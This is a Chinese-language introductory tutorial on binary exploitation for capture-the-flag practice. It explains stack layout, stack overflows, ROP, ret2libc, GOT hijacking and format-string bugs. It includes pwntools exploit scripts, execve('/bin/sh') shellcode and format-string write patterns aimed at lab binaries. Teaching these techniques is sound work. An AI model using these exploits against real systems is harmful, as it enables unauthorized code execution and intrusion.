




PWN入门¶
介绍¶
objdump：objdump -d -M intel ./bof
readelf：readelf -a ./bof
IDA Pro
GDB-PEDA：checksec、vmmap、find
- 直接运行
gdb ./pwn - python通过pwn process运行，debug模式能看到进程号，然后
gdb attach 6223接管调试 - 进入pwndbg后可以使用
stack 30、x/40sx 0x7ffd65627058等命令
Pwntools：
from pwn import *
context.log_level = 'debug'
#context(arch = 'i386', os = 'linux')
p = remote('x.x.x.x',23333)
#p = process('./hello')
addr = 0x400586
payload = 'a'*0x18 + p64(addr)
p.sendline(payload)
#p.send(asm(shellcraft.sh()))
p.interactive()
常用方法：
p64(int) 0xfaceb00c => '\x0c\xb0\xce\xfa\x00\x00\x00\x00'
u64(str) '\x0c\xb0\xce\xfa\x00\x00\x00\x00' => 0xfaceb00c
p32(int) 0xfaceb00c => '\x0c\xb0\xce\xfa'
u32(str) '\x0c\xb0\xce\xfa' => 0xfaceb00c
remote(host, port) / process(path)
.recv(int) 7 => Hello world! => 'Hello w'
.recvuntil(str) 'or' => Hello world! => 'Hello wor'
.recvline() === .recvuntil('\n')
.send(str) 'payload' => 'payload'
.sendline(str) 'payload' => 'payload\n'
.interactive()
二进制格式¶

rodata：read only data，静态资源，常量、字符串等
got：一个字典，存了每个函数（包括库函数）的地址
bss：全局变量存储在此，临时变量存在栈中，会随着栈消失
text：代码段（代码的汇编指令）
函数调用传参¶
X64¶
跟据函数参数从左到右的顺序，在调用函数前需将临时变量按顺序存入**寄存器**：
rdi, rsi, rdx, rcx, r8, r9
多余的临时参数将从后往前依次放入栈中（先进后出）
将函数的**返回地址存入rax**

X86¶
32位传参是**不使用寄存器**的，全靠栈储存参数，即：
push 0x800
push 0x700
push 0x600
push 0x500
push 0x400
push 0x300
push 0x200
push 0x100
call foo
并且64位栈宽度是8字节(16位)，而32位栈宽度是4字节
栈格式¶
函数调用¶
当前栈空间结果，准备执行call函数
注意：rip的值指向下一条汇编命令

执行到call函数，首先修改rip的值，并且将call的下一条命令的地址入栈（为了ret时候跳回到相应位置）

然后正式进入函数，首先还是通用方法开辟栈空间
4004e7: push rbp
4004e8: mov rbp, rsp
4004eb: sub rsp, 0x10
第一步：将原地址栈底rbp入栈
第二步：将新栈顶指针指向当前栈底指针
第三步：将栈顶指针上移，开辟出0x10，即16字节空间
最后就可以往开辟的空间里写入函数局部变量了

函数返回¶
执行完函数逻辑，通常通过leave、ret返回到主函数
首先是leave，虽然汇编就一行，但其实本质上执行了
mov rsp, rbp
pop rbp
第一步：清空栈空间，将栈顶指针指向栈底
第二步：将弹出的值赋给rbp，所以现在栈底指向最初的栈底

然后执行ret，即pop当前栈顶的值至rip
由于rip为下一条汇编指令，那么就刚好回到主函数call的后面了

栈溢出¶
所以如果函数临时变量的值可以输入，并且超了所分配的栈空间
如果我们能覆盖到rip的值（返回地址），就能劫持执行流

Return to Text¶
即返回的指针指向到Text段，通常为后门函数
覆盖变量开辟的空间+8字节的old rbp
最后加进去后门函数地址即可

from pwn import *
io = process('./bof')
backdoor = 0x400607
io.recvuntil('TEXT:')
payload = b'a' * 0x18 + p64(backdoor)
io.sendline(payload)
io.interactive()
Return to Shellcode¶
这次没有现成的后门函数了，只能我们自己找一块**同时可读可写**的地址写入shellcode
然后覆盖返回地址至我们的shellcode即可

一般shellcode调用execve函数
int execve(const char *filename, char *const argv[], char *const envp[]);
根据函数传参方式：
第一个变量filename存在rdi中，赋值为/bin/sh的地址
第二个变量argv存在rsi中，赋值为0x0
第三个变量envp存在rdx中，赋值为0x0
最后调用syscall前需指明需要调用的函数，通过查**Linux系统调用表**(system call table)，0x3b代表syscall，所以需要给rax赋值为0x3b
即汇编代码如下：
0x h s / n i b /
mov rbx, 0x68732f6e69622f
push rbx
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 0x3b
syscall
例：允许往bss段全局变量写入，以及局部变量存在栈溢出
from pwn import *
io = process('./ret2sc')
context.arch = 'amd64'
shellcode_addr = 0x601060
sc = asm(shellcraft.sh())
io.recvuntil('quanju:')
io.send(sc) #往bss段写shellcode
io.recvuntil('linshi:')
payload = b'a' * 0x18 + p64(shellcode_addr)
io.sendline(payload) #覆盖返回地址跳到shellcode
io.interactive()
bss段即可写又可执行，前提是没开NX
栈保护方法¶
Canary¶
在old rbp前加入随机数，栈回收时检查该数是否被篡改

可以使用**格式化字符串漏洞**的任意栈地址读，先读取Canary的值，然后栈溢出时特地添加回去
或者通过**任意栈地址写**，只改return地址这一个位置，不动Canary
NX¶
可执行的地方不能写，可写的地方不可执行
绕过方法ROP，用已有的片段构建ROP链子（用你本身代码执行，我不去写了）
ASLR¶
空间地址随机化：每次执行程序时stack、heap、library的地址都不一样（基址不同，偏移一致）

PIE¶
开启后code段和data段（text段）也会启用ASLR

IDA打开发现text段（代码段）前面只能显示后3位（偏移），前面都是0
RELRO¶
checksec的结果：
FULL RELRO表示改不了got表
Partial RELRO表明启用了懒加载Lazy Binding，可以改got表
GOT Hijack¶
Lazy Binding 懒加载¶
所有的lib不会全都调用，只有初次使用时才会加载（把需要调用的库函数地址写入GOT表）
说明开启Lazy Binding时GOT表是可写的，那么我们后期也可以修改GOT表的值，让该函数指向其他地方
也可以修改GOT指向地址的内容，本质上是替换函数的内容
GOT表集中存储了**每个函数的真实地址**
ROP¶
通过不断去执行包含ret的程序汇编片段来达到想要的寄存器操作
这些包含ret的汇编程序片段叫做gadget
由众多的ROP gadget串成ROP Chain来作为我们的shellcode
4004fa: 48 83 c4 08 add rsp, 0x8
4004fe: c3 ret
4005b8: 5d pop rbp
4005b9: c3 ret
4006c4: c9 leave
4006c5: c3 ret
400730: 41 5e pop r14
400732: 41 5f pop r15
400734: c3 ret
此时我们往栈上从上往下填充数据时需要依次写入跳转地址，进入片段执行完gadget后会自动跳回到主函数
| 4004fa |
|---|
| 4005b8 |
| 4006c4 |
| 400730 |
| ...... |
最终构造出execve函数(0x3b)

- pop rdi，把栈顶的值赋给rdi，此时rdi=0x6bb2e0，刚好是bss段地址
- pop rsi，把栈顶的值（
/bin/sh\x00的指针地址）赋给rsi - mov qword ptr [rdi], rsi，把rsi的值移动到rdi指针所指向的位置，也就是把
/bin/sh\x00写入bss中 - pop rsi，把rsi赋值为0
- pop rdx，把rdx赋值为0
- pop rax，把rax赋值为0x3b
- syscall，此时rax是0x3b，也就是执行了execve函数，各个寄存器的值之前也铺垫好了
Return to PLT¶

依旧是ROP，只不过这次需要构造system("sh");函数。
要获得shell需要做如下步骤：
-
获取system函数的地址。
-
获取“/bin/sh”字符串的地址。
-
将RDI中的值，改成“/bin/sh”字符串的地址。
**全局偏移表（GOT）**包含每个全局变量的4字节条目，其中4字节条目包含全局变量的地址。
**过程链接表（PLT）**包含每个全局函数的存根代码。代码段中的调用指令不直接调用函数（'function'），而是调用存根代码（function@PLT）。
原理：
用ida反编译目标程序后发现其中有printf,gets ,setvbuf，在内存这几个函数的got表地址是固定的。
在执行printf函数前，edi指向的是格式化串，rsi指向的是被打印串的地址。
如果控制了rsi那么我们就可以打印任何地址的内容。
然后通过当前函数地址(gets) - system = 偏移地址 (两个函数的相对偏移是固定的)，得到一个固定的相对偏移地址。
得到偏移地址后通过当前地址加上偏移得到system函数的内存地址，然后传入’/bin/sh’，执行system就达到目的。
Return to libc¶
通过ROPgadget --binary ./gothijack | grep "pop rax"发现，自己写的代码没有所需要后面紧跟着ret的gadget，也就无法构造ROP。

然而libc中代码非常多，所需要的片段（execve或者system函数）通常都能搜到。
所有版本的libc可以在这里找到 libc database search
根据puts函数的地址和偏移，计算出libc基址，再根据system函数的偏移，计算出system函数的地址。
获得libc地址的地方有：栈、堆、got，栈中存着函数的真实地址，偏移通过libc可以直接获得，基址就有了。
格式化字符串漏洞¶
常见函数¶
| 函数 | 基本介绍 |
|---|---|
| printf | 输出到stdout输入 |
| fprintf | 输出到指定FILE流 |
| vprintf | 根据参数列表格式化输出到stdout |
| vfprintf | 根据参数列表格式化输出到指定FILE流 |
| sprintf | 输出到字符串 |
| snprintf | 输出指定字节数到字符串 |
| vsprintf | 根据参数列表格式化输出到字符串 |
| vsnprintf | 根据参数列表格式化输出指定字节到字符串 |
| setproctitle | 设置argv |
漏洞原理¶
以printf为例，函数会一个一个读取参数。当前字符不是%，直接输出到相应的标准输出
若当前字符是%，继续读取下一个字符：
- 如果没有字符，报错
- 如果下一个字符是%，输出%
- 否则根据相应的字符，获取相应的参数，并对其进行解析并输出
printf("Color %s, Number %d, Float %4.2f");
其中：
%s输出地址对应的字符串，若地址对应空间不合法就会崩溃%d输出内容对应的整型值%4.2f输出内容对应的浮点值
补充：
%d或者%i，有符号整数%u，无符号整数%x或者%X，16进制无符号整形，小x输出小写的16进制，大X输出大写的16进制%o，8进制无符号整形%c，输出一个字符%p，后跟&a输出对应变量的地址%n，写入字符个数
泄露内存¶
泄露栈内内存¶
使用%x、%p来获取对应栈的内存
使用%s获取变量所对应地址的内容
使用%order$x获取指定参数的值（order为栈内偏移）
使用%order$s获取指定参数对应地址的值（order为栈内偏移）
泄露任意内存¶
假设格式化字符串相对函数调用第k个参数，那么可以通过addr%k$s来获取某个指定地址addr的内容
覆盖内存¶
%n把已经成功输出的**字符个数** 写入 对应的整形指针所指的变量，格式为：[填充内容][需要覆盖的地址][填充内容]%[所覆盖地址为格式化字符串第几个参数]$n